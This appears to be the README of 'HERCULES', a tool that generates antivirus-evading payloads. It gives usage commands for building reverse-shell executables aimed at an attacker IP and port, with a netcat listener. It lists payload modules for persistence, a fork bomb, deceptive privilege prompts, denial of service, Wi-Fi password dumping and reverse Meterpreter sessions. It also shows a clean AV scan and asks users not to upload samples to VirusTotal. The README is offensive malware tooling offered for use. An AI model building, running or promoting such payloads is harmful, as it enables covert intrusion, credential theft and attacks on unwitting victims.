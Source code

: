 # HERCULES [!(http://img.shields.io/badge/go-documentation-blue.svg?style=flat-square)]
HERCULES is a special payload generator that can bypass all antivirus software.

Use it with netcat...

Example : nc -l -p 1234


# USAGE


                  __  ____________  ________  ____    ___________
                 / / / / ____/ __ \/ ____/ / / / /   / ____/ ___/
                / /_/ / __/ / /_/ / /   / / / / /   / __/  \__ \ 
               / __  / /___/ _, _/ /___/ /_/ / /___/ /___ ___/ / 
              /_/ /_/_____/_/ |_|\____/\____/_____/_____//____/  
                                                   


Usage : ./HERCULES (Ip) (Port) (Options)

Example : ./HERCULES 192.168.2.10 4444 -p windows -a x86 -l dynamic

Example Video : https://youtu.be/vYnaZpWxwxY

Options : 

      -p                 Payload to use. ( Windows / Linux )

      -a                 The architecture to use. ( x86, x64 )
      
      -l                 Specify linking type for compiler. ( static, dynamic )

      --persistence      Enable outo persistence option for continious acces.

      --embed="file.exe" Embed the selected payload with selected exe file.




# PAYLOAD OPTIONS

     ~PERSSISTENCE                     Installs a persistence module

     ~DISTRACT                         Executes a fork bomb bat file for distraction   

     ~PLEASE  "Command"                Asks users comfirmation for higher privilidge operations

     ~DOS -A "www.targetsite.com"      Starts a denial of service atack

     ~WIFI-LIST 					   Dumps all wifi history data with passwords

     ~METERPRETER -A "127.0.0.1:8888"  Creates a reverse https meterpreter connection to metasploit

# NOTE !

- Dynamic linking makes payload size smaller !
- Using persistence may atract anti virus softwares !
- Please don't disribute any samples to Virus Total !

# AV AWARENESS

File Name: Payload.exe
File Size: 7.57 MB
Scan Date: 11:06:04 | 06/08/2016
Detected by: 0/35

MD5: 752e10459e0624beb6747ae85f8f9261
SHA256: 491bab16a4701102f201800322cf06bb95229dec012b5703e33be77d74b672a6
Verified By NoDistribute: http://NoDistribute.com/result/ZWHKvaAJcCpnOGbgNq

- A-Squared:  Clean
- Ad-Aware:  Clean
- Avast:  Clean
- AVG Free:  Clean
- Avira:  Clean
- BitDefender:  Clean
- BullGuard:  Clean
- Clam Antivirus:  Clean
- Comodo Internet Security:  Clean
- Dr.Web:  Clean
- ESET NOD32:  Clean
- eTrust-Vet:  Clean
- F-PROT Antivirus:  Clean
- F-Secure Internet Security:  Clean
- FortiClient:  Clean
- G Data:  Clean
- IKARUS Security:  Clean
- K7 Ultimate:  Clean
- Kaspersky Antivirus:  Clean
- McAfee:  Clean
- MS Security Essentials:  Clean
- NANO Antivirus:  Clean
- Norman:  Clean
- Norton Antivirus:  Clean
- Panda CommandLine:  Clean
- Panda Security:  Clean
- Quick Heal Antivirus:  Clean
- Solo Antivirus:  Clean
- Sophos:  Clean
- SUPERAntiSpyware:  Clean
-Trend Micro Internet Security:  Clean
- Twister Antivirus:  Clean
- VBA32 Antivirus:  Clean
- VIPRE:  Clean
- Zoner AntiVirus:  Clean
				

# DONATIONS

- http://patreon.com/user?u=3556027

